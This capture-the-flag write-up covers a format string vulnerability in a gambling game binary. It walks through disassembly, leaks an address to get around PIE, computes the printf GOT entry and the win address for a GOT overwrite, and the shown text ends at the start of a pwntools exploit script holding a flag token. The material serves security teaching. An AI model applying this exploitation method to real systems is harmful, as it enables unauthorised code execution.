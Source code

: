 ```
lea     eax, [ebp-0x234 {var_238}]
push    eax {var_238} {var_24c_2}
call    printf
add     esp, 0x10
```
This last `printf` is the only one in the binary with a format string vulnerability, since it takes only a string as a parameter. This string is at ebp-0x234. From the above `strncpy`, 0x100 bytes are copied from some (arg1+0x14) into ebp-0x234. Let's see what this arg1 is when `do_gamble` is executed from the `game_loop` function:
```
{Case 0x5}
sub     esp, 0xc
lea     eax, [ebx+0x208]  {g_player}
push    eax {var_2c}  {g_player}
call    do_gamble
```
It some chunk of memory labelled g_player which is at ebx+0x208. Note that since PIE is enabled the whole binary is shifted by some value determined at runtime. ebx contains a constant 0x3518 which is an offset from the start of the binary (notably where the GOT starts).
If we take a look at where the player's name is entered, it is at g_player+0x14, which means the vulnerable `printf` is responsible for printing the player's name.
```
push    0xff {var_38}
lea     eax, [ebx+0x208]
lea     eax, [eax+0x14]  {data_3734}
push    eax  {data_3734}
call    get_str
```
If we look back at the first snippet in this writeup from `do_gamble`, the first value to be printed off the stack is `push    eax {var_248}` which is `g_player + 0x14`. So we can retrieve this value when our name is simply '%x'. Then its obvious we can change our name to a format string exploit which writes bytes, then enter `do_gamble` again to run the exploit.
`checksec` shows there is no RELRO but there is PIE enabled. This means we can overwrite the GOT. So we'll write the `win` address to the GOT entry for `printf`. But. Since PIE is enabled we have to use the address we are given (g_player + 0x14), to work out where the `printf` GOT entry is and what the `win` address is. Let's begin the derivation for the `printf` GOT entry:
```
g_player_addr = given address - 0x14, as previously established
ebx = g_player_addr - 0x208, as we found g_player_addr to be ebx+0x208
printf GOT address = ebx + 0x10, which can be easily found on binary ninja
```

To get the `win` address, we need to make use of the fact that ebx contains the binary offset for the GOT, which is 0x3518. Inspection of the binary also reveals that the `win` function is at the binary offset 0x0ab4. So the `win` address is: ebx - 0x3518 + 0x0ab4

And with that sorted, the exploit:

```
from pwn import *

#flag is FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1zcGxvaXR3YXJ6IiwiaXAiOiIxMjAuODguMTI5LjI1MCIsInNlc3Npb24iOiJiNzFmNDUzMy1mNjNlLTQ5MTItOWE0YS01MmM4ZWQ5YjJkMzkifQ.8cbwoYKNJpNGGs5P6A1WwtON2C3mE7knNzKy_DtT5DU}

def get_n(new, prev, size):
    while new <= prev:
        new += (1 << size)
    return new-prev

def gen_addrs(base_addr):
    addrs = b''
    for i in range(4):
        addrs += p32(base_addr + i)
    return addrs

```